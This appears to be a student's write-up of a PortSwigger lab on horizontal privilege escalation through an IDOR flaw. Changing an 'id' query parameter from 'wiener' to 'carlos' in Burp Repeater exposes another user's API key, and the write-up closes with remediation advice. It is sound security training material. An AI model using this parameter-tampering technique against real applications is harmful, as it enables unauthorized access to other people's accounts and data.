




# Lab 05 — User ID Controlled by Request Parameter

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Access Control
- **Lab:** User ID controlled by request parameter
- **Vulnerability:** Broken Access Control / IDOR
- **Privilege Escalation:** Horizontal
- **Status:** Solved

---

## Objective

Obtain the API key belonging to the user `carlos` and submit it as the solution.

The lab provides the following credentials:

```text
Username: wiener
Password: peter
```

---

## Initial Reconnaissance

I logged into the application as the normal user `wiener`. After navigating to the account page, Burp Suite HTTP History showed the following request:

```http
GET /my-account?id=wiener HTTP/2
```

```text
Path:            /my-account
Parameter name:  id
Parameter value: wiener
```

The response contained information belonging to the authenticated user, including an API key.



---

## Forming a Hypothesis

The application was using the `id` query parameter to determine which user's account information should be returned.

```http
GET /my-account?id=wiener HTTP/2
```

This raised the following question: does the application verify that the authenticated user is authorized to access the account identified by the `id` parameter?

To test this, the request was sent to Burp Repeater.

---

## Testing the User ID

In Burp Repeater, I changed only the user ID:

```text
id=wiener → id=carlos
```

The modified request was:

```http
GET /my-account?id=carlos HTTP/2
```

The session and other request components were left unchanged.



---

## Result

The server returned:

```text
HTTP/2 200 OK
```

The response contained Carlos's account information, including his API key. This demonstrated that my authenticated session as `wiener` could access another user's account simply by changing the `id` parameter.

The API key is redacted in the public evidence.



The API key was submitted to the PortSwigger lab as the solution.



---

## Vulnerability

The application suffers from **broken access control**. More specifically, this is an **IDOR-style vulnerability** caused by the application trusting a user-controlled identifier without verifying authorization.

```text
GET /my-account?id=<user>
        ↓
Return account belonging to <user>
```

The application does not check whether the authenticated user is permitted to access that account.

---

## Horizontal Privilege Escalation

This vulnerability results in **horizontal privilege escalation**. Unlike vertical privilege escalation, where a user gains access to a higher privilege level, horizontal privilege escalation occurs when a user accesses another user's resources at the same privilege level.

```text
Wiener's authenticated session
        ↓
GET /my-account?id=carlos
        ↓
Carlos's account
        ↓
Carlos's API key
```

---

## Attack Flow

```text
Login as wiener
        ↓
Visit /my-account?id=wiener
        ↓
Identify user-controlled ID parameter
        ↓
Send request to Repeater
        ↓
Change id=wiener → id=carlos
        ↓
Send request
        ↓
200 OK
        ↓
Carlos's account returned
        ↓
Carlos's API key exposed
        ↓
Submit API key
        ↓
Lab solved
```

---

## Impact

An attacker can access another user's account information without authorization.

In this lab, the exposed information included Carlos's account information and API key. In a real application, similar vulnerabilities could expose personal information, account details, private documents, order history, API keys, internal identifiers, and other sensitive user data.

---

## Remediation

The application should not rely solely on a user-supplied identifier to determine which account can be accessed. The server must verify that the authenticated user is authorized to access the requested resource.

```text
Request
   ↓
Identify authenticated user
   ↓
Identify requested resource
   ↓
Authorization check
   ↓
Does this user own/have permission to access it?
   ├── Yes → Return resource
   └── No  → Reject request
```

When `wiener` requests `GET /my-account?id=carlos`, the server should determine that `wiener` is not authorized to access Carlos's account and reject the request.

---

## Key Takeaways

1. User-controlled identifiers should never be trusted for authorization decisions.
2. Burp HTTP History can reveal parameters that determine which resource is returned.
3. Burp Repeater can test whether changing an object identifier bypasses access controls.
4. Always compare the original request with a request targeting another user's resource.
5. A `200 OK` response does not automatically mean the access was authorized.
6. Accessing another user's resource at the same privilege level is **horizontal privilege escalation**.
7. IDOR is commonly caused by missing server-side authorization checks.
8. Resource ownership or authorization must be verified on the server before returning sensitive data.
